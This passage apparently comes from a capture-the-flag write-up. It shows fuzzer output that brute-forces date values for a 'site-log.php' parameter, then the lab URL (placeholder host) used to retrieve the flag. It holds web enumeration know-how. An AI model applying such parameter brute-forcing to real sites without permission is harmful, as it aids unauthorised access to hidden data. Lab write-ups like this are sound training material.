 000049:  C=200      0 L	       0 W	      0 Ch	  "20201218"
000040:  C=200      0 L	       0 W	      0 Ch	  "20201209"
000041:  C=200      0 L	       0 W	      0 Ch	  "20201210"
000042:  C=200      0 L	       0 W	      0 Ch	  "20201211"
000043:  C=200      0 L	       0 W	      0 Ch	  "20201212"
000044:  C=200      0 L	       0 W	      0 Ch	  "20201213"
000045:  C=200      0 L	       0 W	      0 Ch	  "20201214"
000046:  C=200      0 L	       0 W	      0 Ch	  "20201215"
000047:  C=200      0 L	       0 W	      0 Ch	  "20201216"
000048:  C=200      0 L	       0 W	      0 Ch	  "20201217"
000050:  C=200      0 L	       0 W	      0 Ch	  "20201219"
000051:  C=200      0 L	       0 W	      0 Ch	  "20201220"
000052:  C=200      0 L	       0 W	      0 Ch	  "20201221"
000053:  C=200      0 L	       0 W	      0 Ch	  "20201222"
000054:  C=200      0 L	       0 W	      0 Ch	  "20201223"
000055:  C=200      0 L	       0 W	      0 Ch	  "20201224"
000057:  C=200      0 L	       0 W	      0 Ch	  "20201226"
000056:  C=200      0 L	       0 W	      0 Ch	  "20201225"
000058:  C=200      0 L	       0 W	      0 Ch	  "20201227"
000001:  C=200      0 L	       0 W	      0 Ch	  "20201100"
000003:  C=200      0 L	       0 W	      0 Ch	  "20201102"
000002:  C=200      0 L	       0 W	      0 Ch	  "20201101"
000004:  C=200      0 L	       0 W	      0 Ch	  "20201103"
000005:  C=200      0 L	       0 W	      0 Ch	  "20201104"
000006:  C=200      0 L	       0 W	      0 Ch	  "20201105"
000007:  C=200      0 L	       0 W	      0 Ch	  "20201106"
000008:  C=200      0 L	       0 W	      0 Ch	  "20201107"
000009:  C=200      0 L	       0 W	      0 Ch	  "20201108"
000010:  C=200      0 L	       0 W	      0 Ch	  "20201109"
000011:  C=200      0 L	       0 W	      0 Ch	  "20201110"
000012:  C=200      0 L	       0 W	      0 Ch	  "20201111"
000013:  C=200      0 L	       0 W	      0 Ch	  "20201112"
000014:  C=200      0 L	       0 W	      0 Ch	  "20201113"
000015:  C=200      0 L	       0 W	      0 Ch	  "20201114"
000016:  C=200      0 L	       0 W	      0 Ch	  "20201115"
000017:  C=200      0 L	       0 W	      0 Ch	  "20201116"
000059:  C=200      0 L	       0 W	      0 Ch	  "20201228"
000060:  C=200      0 L	       0 W	      0 Ch	  "20201229"
000061:  C=200      0 L	       0 W	      0 Ch	  "20201230"
000062:  C=200      0 L	       0 W	      0 Ch	  "20201231"
000063:  C=200      0 L	       0 W	      0 Ch	  ""

Total time: 0.109613
Processed Requests: 63
Filtered Requests: 0
Requests/sec.: 574.7446{% endraw %}{% endcapture %} {% include code.html code=code %}

The date `20201125` contains characters, and we can query using the date in `firefox` to get the flag.
{% capture code %}{% raw %}http://<ip>/<dir>/site-log.php?date=20201125{% endraw %}{% endcapture %} {% include code.html code=code %}
